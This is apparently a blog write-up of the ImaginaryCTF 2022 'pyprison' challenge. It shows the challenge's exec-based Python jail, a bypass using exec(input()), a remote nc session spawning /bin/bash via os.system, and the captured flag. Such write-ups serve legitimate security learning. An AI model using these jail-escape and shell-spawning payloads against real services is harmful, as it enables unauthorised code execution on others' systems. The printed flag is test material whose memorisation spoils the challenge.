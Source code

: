 ```yaml
---

title: pyprison [IMAGINARY CTF] [MISC]

date: 2022-07-18 11:28:05 +0200

categories: [python,ctftime]

tags: [CTFTIME]

---
```


## pyprison

 > Given file
```python
#!/usr/bin/env python3

while True:
  a = input(">>> ")
  assert all(n in "()abcdefghijklmnopqrstuvwxyz" for n in a)
  print("Execing")
  exec(a)
```

- We're restricted to these constraints.
- We can only use lowercase alphabets and parentheses 
- Here we can do anything with these chars
- Let's get an input and pass it to exec

```c++
➜  misc python3 pyprison.py
>>> exec(input())
Execing
print('Meaw Meaw')
Meaw Meaw
```
- Here you can see it's executed our input
- Now let's try to get a shell

> in remote server

```c++
➜  misc nc pyprison.chal.imaginaryctf.org 1337
== proof-of-work: disabled ==
>>> exec(input())
import os; os.system('/bin/bash')
whoami
user
id
uid=1000(user) gid=1000(user) groups=1000(user)
```
- Now read the flag

```c++
cat flag.txt
ictf{pyprison_more_like_python_as_a_service_12b19a09}
```

flag: `ictf{pyprison_more_like_python_as_a_service_12b19a09}`
